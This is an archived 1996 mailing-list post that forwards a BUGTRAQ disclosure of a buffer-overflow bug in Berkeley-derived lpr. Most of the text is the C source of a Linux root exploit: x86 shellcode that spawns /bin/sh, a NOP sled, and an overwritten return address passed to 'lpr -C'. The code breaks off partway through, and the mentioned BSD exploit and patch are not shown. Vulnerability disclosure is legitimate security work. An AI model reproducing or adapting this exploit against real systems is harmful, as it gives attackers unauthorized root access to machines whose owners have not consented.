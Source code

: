 >ethernet, there is a program called SAMBA and a filesystem called ksmbfs 
>that will allow your windows computer to mount shares on the linux machine, 
>and vice-versa, respectively. 
> 
>Tobin

Sun Oct 27 20:18:47 1996 
From: Carolyn Meinel <cmeinel@techbroker.com> 
Subject: HH: Linux & BSD's lpr exploit (fwd) 
:

Here's another reason to run Linux.

---------- Forwarded message ---------- 
Date: Fri, 25 Oct 1996 16:35:57 +0300 
From: Vadim Kolontsov <vadim@tversu.ac.ru> 
To: Multiple recipients of list BUGTRAQ <BUGTRAQ@netspace.org> 
Subject: Linux & BSD's lpr exploit

Hello,

  there is a bug in berkeley-derived lpr, which allows attacker to get 
root access (see freebsd-security for details). Here is exploit for Linux 
(tested on 2.0.20), for BSD (tested on FreeBSD 2.1) and a patch.

Best regards, Vadim.

-------------------------------------- linux_lpr_exploit.c ---------- 
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h>

#define DEFAULT_OFFSET          50 
#define BUFFER_SIZE             1023

long get_esp(void) 
{ 
   __asm__("movl %esp,%eax\n"); 
}

void main() 
{ 
   char *buff = NULL; 
   unsigned long *addr_ptr = NULL; 
   char *ptr = NULL;

   u_char execshell[] = "\xeb\x24\x5e\x8d\x1e\x89\x5e\x0b\x33\xd2\x89\x56\x07" 
                        "\x89\x56\x0f\xb8\x1b\x56\x34\x12\x35\x10\x56\x34\x12" 
                        "\x8d\x4e\x0b\x8b\xd1\xcd\x80\x33\xc0\x40\xcd\x80\xe8" 
                        "\xd7\xff\xff\xff/bin/sh"; 
   int i;

   buff = malloc(4096); 
   if(!buff) 
   { 
      printf("can't allocate memory\n"); 
      exit(0); 
   } 
   ptr = buff; 
   memset(ptr, 0x90, BUFFER_SIZE-strlen(execshell)); 
   ptr += BUFFER_SIZE-strlen(execshell); 
   for(i=0;i < strlen(execshell);i++) 
      *(ptr++) = execshell[i]; 
   addr_ptr = (long *)ptr; 
   for(i=0;i<2;i++) 
      *(addr_ptr++) = get_esp() + DEFAULT_OFFSET; 
   ptr = (char *)addr_ptr; 
   *ptr = 0; 
   execl("/usr/bin/lpr", "lpr", "-C", buff, NULL); 